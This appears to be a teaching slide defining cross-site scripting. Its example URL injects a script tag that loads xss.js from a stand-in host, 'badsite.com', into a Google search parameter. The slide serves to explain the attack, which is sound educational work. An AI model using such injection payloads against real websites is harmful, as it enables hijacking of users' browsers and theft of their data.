

# Cross-Site Scripting (XSS)
Tricking a client or server into executing scripted code by including the code in data inputs.
Scripts and HTML tags are encoded as plaintext just like user inputs.
https://www.google.com/search?q=cross+site+scripting&oq=cross+site+s&aqs=chrome.0.0j69i4.90j8&sourceid=chrome&ie=UTF-8
Example:
http://www.google.com/search?name=<SCRIPTSRC=http://badsite.com/xss.js></SCRIPT>&q=cross+site+scripting&ie=utf-8&aq=t&rls=org.mozilla:en-US:official&client=firefox-a&lr=lang_en

11